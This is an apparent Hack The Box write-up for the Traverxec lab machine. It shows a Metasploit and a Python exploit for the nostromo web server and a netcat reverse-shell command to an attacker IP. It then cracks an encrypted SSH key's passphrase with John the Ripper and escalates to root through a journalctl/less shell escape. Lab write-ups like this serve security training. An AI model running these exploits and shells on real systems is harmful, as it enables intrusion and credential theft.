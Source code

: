 # HTB - Traverxec
## OS - Linux

Started with an nmap scan as usual. (IP address: 10.10.10.165)

```
$nmap -sC -sV -oN traverxec.nmap 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 17:06 PST
Nmap scan report for 10.10.10.165
Host is up (0.095s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds


```
The machine is running nostromo v1.9.6 as the web server. When I searched for nostromo, I saw that metasploit has a module for it.

Using msfconsole to use that exploit,

```
msf6 > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.25:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.25:4444 -> 10.10.10.165:51758) at 2021-02-21 18:19:58 -0800
```

There is also an exploit for this at https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py.

```
python exploit.py 10.10.10.165 80 'nc 10.10.14.9 4444 -c bash'
```

Once we get a shell, we loo around in /var/nostromo.

conf/nhttp.conf shows 

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```

There's a .htpasswd file with contents:
```
www-data@traverxec:/var/nostromo/conf$ more .htpasswd
more .htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
www-data@traverxec:/var/nostromo/conf$
```

If we look at /home/david, we get permission denied. But when we go to /home/david/public_www. we see a folder "protected-file-area".

```
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www
ls -l /home/david/public_www
total 8
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
www-data@traverxec:/var/nostromo/conf$ ls -l /home/david/public_www/protected-file-area
<f$ ls -l /home/david/public_www/protected-file-area
total 4
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

We copy the tgz file to /tmp and extract it.

```
   www-data@traverxec:/tmp$ tar xvzf backup-ssh-identity-files.tgz
tar xvzf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
The private key is there, and it is encrypted.

```
www-data@traverxec:/tmp/home/david/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```


We download ssh2john.py and run it to make it readable by john to crack.

```
$python ssh2john.py pvt-key.txt > ssh.txt


$more ssh.txt 
pvt-key.txt:$sshng$1$16$477EEFFBA56F9D283D349033D5D08C4F$1200$b1ec9e1ff7de1b5f53
95468c76f1d92bfdaa7f2f29c3076bf6c<clipped>
```

And we run john the ripper.

```
$john ssh.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes


Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hunter           (pvt-key.txt)
Proceeding with incremental:ASCII
hunter           (pvt-key.txt)
```

The password is hunter.

Now we can ssh as david using the private key and the password.
```
$ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
```
There's a bin folder in there.

```
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ more server-stats.head 
```
It shows ascii art file.

The shell script has:

```
david@traverxec:~/bin$ more server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -
l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

so david has sudo permissions to run journalctl with that file. If we run the last line in the script without cat but using less,

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2021-03-20 15:40:23 EDT, end at Sat 2021-03-20 20:17:47 EDT
Mar 20 17:30:00 traverxec crontab[13870]: (www-data) LIST (www-data)
Mar 20 17:30:02 traverxec sudo[16210]: pam_unix(sudo:auth): authentication failu
Mar 20 17:30:04 traverxec sudo[16210]: pam_unix(sudo:auth): conversation failed
Mar 20 17:30:04 traverxec sudo[16210]: pam_unix(sudo:auth): auth could not ident
Mar 20 17:30:04 traverxec sudo[16210]: www-data : command not allowed ; TTY=pts/
!/bin/bash
root@traverxec:/home/david/bin# 
```

Here we used shell escape !/bin/bash in less or journalctl to escape to root account. And we get the root flag.


